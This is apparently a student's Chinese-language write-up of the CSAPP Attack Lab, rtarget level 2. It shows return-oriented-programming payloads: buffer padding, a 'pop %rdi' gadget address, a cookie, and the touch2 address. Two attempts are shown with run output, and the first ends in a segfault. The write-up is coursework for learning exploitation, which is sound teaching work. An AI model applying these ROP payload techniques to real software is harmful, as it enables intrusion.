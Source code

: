 则对应的`0x402b18<-->41`和`0x402b19<-->5f`

我们将`5f<-->pop %rdi`，对于入栈和出栈的方式，

1. `push %reg`：`%rsp`的值减8，把寄存器`%reg`里面的值，放入到`[%rsp]`里面
2. `pop %reg`: 把`[%rsp]`里面的值给`%reg`中，`%rsp`的值再加上8

对应的`touch2`的首位地址是`0x4017ec`

构建输入的字符串

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 # 填补40字节缓冲区

19 2b 40 00 00 00 00 00 # pop %rdi 对应的getbuf的返回地址
fa 97 b9 59 00 00 00 00 # cookie
ec 17 40 00 00 00 00 00 # touch2 的首地址
```

当 我尝试运行的时候，jj了，FAIL!

```shell
dargon@dd:~/桌面/CSAPP/lab3_attack/target1$ ./rtarget -q < ans4_raw.txt 
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
Ouch!: You caused a segmentation fault!
Better luck next time
FAIL: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:FAIL:0xffffffff:rtarget:0:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 19 2B 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 EC 17 40 00 00 00 00 00 
```

> 我是没有想到哪里可以引起`segmentation fault`，也即是可以执行了栈里面的内容

* **第二次尝试**

当我尝试构建`expolit strings`的时候，利用`0x40141b`的位置取出`5f c3`的字码

```assembly
401419:	69 c0 5f c3 00 00    	imul   $0xc35f,%eax,%eax
```

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 # 填补40字节缓冲区

1b 14 40 00 00 00 00 00 # pop %rdi 对应的getbuf的返回地址
fa 97 b9 59 00 00 00 00 # cookie
ec 17 40 00 00 00 00 00 # touch2 的首地址
```
